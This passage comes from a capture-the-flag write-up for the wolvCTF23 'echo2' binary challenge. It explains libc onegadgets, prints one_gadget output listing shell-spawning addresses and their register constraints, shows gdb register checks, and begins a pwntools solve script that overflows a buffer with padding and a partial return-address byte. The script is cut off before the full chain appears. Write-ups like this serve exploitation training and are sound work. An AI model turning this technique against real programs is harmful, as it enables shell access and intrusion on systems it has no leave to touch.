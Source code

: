 At this point, we can either gather all the gadgets in libc to run execve('/bin/sh', 0, 0), which is very doable, or we can try to see if any onegadgets would work instead. Onegadgets are addresses in a libc file that will spawn a shell if certain conditions are met, and are particularly useful in scenarios where we may only be able to use a single address. We can see that this binary theoretically has four possible onegadgets.
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/wolvCTF23$ one_gadget libc.so.6
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL

0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
If I go ahead and test the constraints at the end of the echo function, I can see that the one at offset 0xebcf5 seems to be mostly met. The only issue is that rbp-0x78 is not necessarily writable. However, it's value is controlled by us; rbp will be 8 bytes directly before the ROPchain starts, so in this case, it's just 8 of our 'a' padding bytes, minux 0x78. This means that if I just stick the address for the bss section (a reliable writable section in a binary) plus 0x78 right before my ROPchain, the gadget should work!
```
➤  x/gx $rdx
0x0:    Cannot access memory at address 0x0
gef➤  x/gx $r10
0x0:    Cannot access memory at address 0x0
gef➤  x/gx $rbp-0x78
0x61616161616160e9:     Cannot access memory at address 0x61616161616160e9
```
Here is the final solve script:
```
from pwn import *

target = process('./echo2')

pid = gdb.attach(target, 'b *echo+125\ncontinue')

elf = ELF('echo2')
libc = ELF('libc.so.6')

print(target.recvuntil(b'Echo2\n'))

#Note: we have a persistent I/O issue whereby the newline from the scanf is being read by the fgets call. It was easiest to just compensate by decrementing padding length by one.
padding = b'a' * 279
payload = padding + b'\x4c'

target.sendline(str(len(payload)+1))

```